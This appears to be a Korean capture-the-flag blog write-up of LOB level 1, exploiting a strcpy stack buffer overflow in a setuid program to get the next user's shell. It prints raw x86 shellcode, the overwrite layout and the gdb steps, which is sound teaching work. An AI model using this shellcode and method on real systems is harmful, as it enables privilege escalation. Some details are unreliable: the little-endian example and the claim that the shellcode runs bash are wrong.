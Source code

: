 ```yaml
---
title: BOF/ LOB-level1(gate)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 1(gate)
**ID : gate**  
**PASSWD : gate**         

![그림1](/assets/LOB/level1/1.PNG)  
사용자 gremlin의 권한의 gremlin파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 gremlin의 권한으로 파일을 실행할 수 있다.**  
**gremlin파일이 쉘을 실행시키도록 한다면 사용자 gremlin의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

{% endhighlight %}  

**gremlin.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. main에 전달받은 인자 argv[1](argv[0]은 파일명)을 buffer에 복사하여 출력하는 소스  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**쉘코드를 인자로 전달하고 쉘코드의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level1에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

**ShellCode를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(256Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### disassemble  

**쉘코드의 주소는 buffer의 시작주소가 될 것이기 때문에 buffer의 시작 주소를 얻기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림2](/assets/LOB/level1/2.PNG)  
disassemble 결과  

![그림3](/assets/LOB/level1/3.PNG)  
**buffer의 시작주소를 확인하기 위해 main함수의 종료 전에 BreakPoint를 걸고 AAAA를 인자로 전달하여 실행시킨 뒤 스택의 값을 출력해본다.**  
esp - 스택의 최상단을 가리키는 포인터  
**b - break명령, r - run명령, x/[범위]wx - 메모리 상태 검사명령(주소 범위 만큼 16진수로 4Byte단위로 출력)**   

**인자로 전달한 AAAA의 Ascii값 41414141을 확인할 수 있다. -> buffer의 시작주소 = 0xbffffa28**  

### Attack  

ShellCode의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [shellcode] + [dummy값] + [buffer시작주소]**의 형태로 공격.  
**이 때 shellcode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 260Byte여야 한다.**
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level1/4.PNG)  
공격이 실패하였다.   

**why?**  
gdb를 이용하여 디버깅을 하게 되면 한번 복사되어 들어가기 때문에 실제 프로세스 주소와 차이가 있다.  

{% highlight C linenos %}  
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    printf("%x\n", buffer);
}

{% endhighlight %} 

![그림5](/assets/LOB/level1/5.PNG)   
**gcc는 컴파일러로 -o옵션은 생성할 바이너리파일의 이름을 지정한다.**  
get_addr.c를 컴파일하여 생성할 파일의 이름은 get_addr로 짓도록 하는 명령  


![그림6](/assets/LOB/level1/6.PNG)   
다시 알아낸 buffer의 주소를 대입하여 공격, 성공적으로 grimlin의 bash를 획득하였다.  


**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  
